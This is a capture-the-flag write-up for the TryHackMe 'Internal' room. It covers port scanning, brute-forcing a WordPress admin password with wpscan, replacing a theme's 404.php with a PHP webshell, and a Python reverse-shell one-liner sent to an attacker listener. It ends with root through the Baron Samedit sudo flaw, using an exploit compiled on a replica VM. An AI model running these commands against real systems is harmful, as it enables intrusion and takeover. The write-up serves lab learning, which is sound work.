

Internal [TryHackme]
- URL: https://tryhackme.com/room/internal
- Difficulty: Hard.
- Subscription: Free.
- Creators: TheMayor and omarbadraan.
Introduction
To complete this room only two flags are requested, called user.txt and root.txt which are located inside the only machine of the scope. In addition, we are instructed that to perform the test we must modify the /etc/hosts file so that the domain name internal.thm points to the IP address of the virtual machine.
The writeups for this machine have been performed following the path intended for this one. This report proposes an alternative solution to get both flags by exploiting the Baron Samedit vulnerability on a machine without a C compiler.
Reconnaissance
Port scanning
Once the scope for the test has been obtained, the scanning of ports and services hosted by the machine can begin. A Syn Stealth type scan is performed using nmap with the -p- option to scan all ports (-n and -Pn is to avoid name resolution and ping sweep respectively).
Service scanning and enumeration
Once the open ports are discovered, nmap is used to detect the version and service hosted on ports 22 and 80.
For port 22, it can be seen that there is an OpenSSH server with version 7.6p1, which is known to be vulnerable to valid user enumeration of the system (CVE-2018-15473). However, no valid users could be obtained. On the other hand, on port 80 there is an Apache 2.4.29 web server, with the default page.
Next, the nmap vuln script is used to detect vulnerabilities in the detected services, along with an enumeration of web server directories using gobuster.
With these tools it is discovered that inside the server there is a Wordpress and a phpMyAdmin portal.
Exploitation of vulnerabilities
Wordpress enumeration
For scanning the Wordpress portal, the wpscan tool is used to list users and installed plugins.
wpscan --url http://internal.thm/blog/ -e vp,u
This reveals that there is an admin user with credentials to access the Wordpress administration panel.
Brute force attack
Once the user is identified, a brute force attack on the panel can be attempted. In this case the wpscan tool is used with the rockyou.txt dictionary to try to obtain the password of the admin user.
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin
After a short time, a valid password is obtained for the user.
Access to the system
With this credentials you can access the Wordpress administration panel. Once inside, you can modify some template file to get a shell in the system.
In this case the 404.php file of the current theme was chosen replacing the code with a webshell in PHP on which to execute commands.
Once the file has been modified, the webshell can be accessed from the URL http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php. Before launching the reverse shell we open a listener on the attacking machine.
pwncat-cs -lp 4444
In the Reverse Shell Generator page there are multiple one-liners to obtain a reverse shell in different languages, but for this case the Python3 option was chosen. To the selected one-liner we add ’nohup’ (to make the process independent) and ‘&’ (to run it in the background). Thus, the command would look something like this:
nohup python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' &
If all worked out correctly, in our pwncat listener we should have obtained a shell as the www-data user.
Privilege escalation
OS enumeration
Doing a quick enumeration of the system we can see that we are dealing with a Ubuntu 18.04.4 LTS system with a sudo 1.8.21p2 version.
Baron Samedit check
We know that the Baron Samedit vulnerability (CVE-2021-3156) affects sudo versions 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1. It exploits a heap buffer overflow in the sudo command, allowing to launch a root shell. To check if your version of sudo is vulnerable you can use the following commands, which should return a Segmentation Fault.
sudoedit -s /
sudoedit -s '\' `perl -e 'print "A" x 65536'`
As we can see, the second command returns a Segmentation Fault, so our version of sudo may be vulnerable. The main problem encountered in is that no C compiler is available on the machine, so you can’t compile the Baron Samedit exploit to get a shell.

Creation of the exploit in a copy
However, once you know the version of the OS, you can ‘replicate’ the victim in a virtualization software, compile the exploit on that machine and pass it to the victim machine and then run it. This was done by using VirtualBox software, and an ISO image of Ubuntu 18.04 LTS to replicate to the victim.
The Ubuntu version must be the same as the encountered in the victim machine, otherwise the exploit may not work, because this vulnerability exploits a specific version of sudo on specific OS versions. It is also mandatory to do an installation without performing software updates, as both the Ubuntu and sudo versions will be updated and the vulnerability will be patched.
Once the above has been clarified and the copy of the machine has been booted, we can proceed to check the version of the operating system and sudo.
As we can see, the operating version does not match exactly (18.04 vs 18.04.4), because the victim machine contains some extra updates, which we cannot perform since it would be updated to the latest patched version. However, the sudo version does match, so we can proceed to compile Baron Samedit’s exploit. For this case we have used an exploit generator from Luis Molina Garz√≥n and Qualys Research Team that allows us to compile the Baron Samedit exploit for the different versions of Ubuntu and sudo. Following the steps indicated in its repository, we get a root shell.
However, before sending it to the machine I wanted to test the exploit with a non-privileged user, since on the victim machine www-data is a non-privileged user.
PWNED
After getting a root shell with both users, it can be sent to the victim. It is worth mentioning that this exploit needs to run with the library already in the repository, so we compress the whole thing and send it to the victim.
Once the compressed file is sent, unzip it in a directory where you have write permissions and run the exploit inside the folder (so that the library is imported correctly). Once this is done, we will be root on the Internal machine by an unintentional method.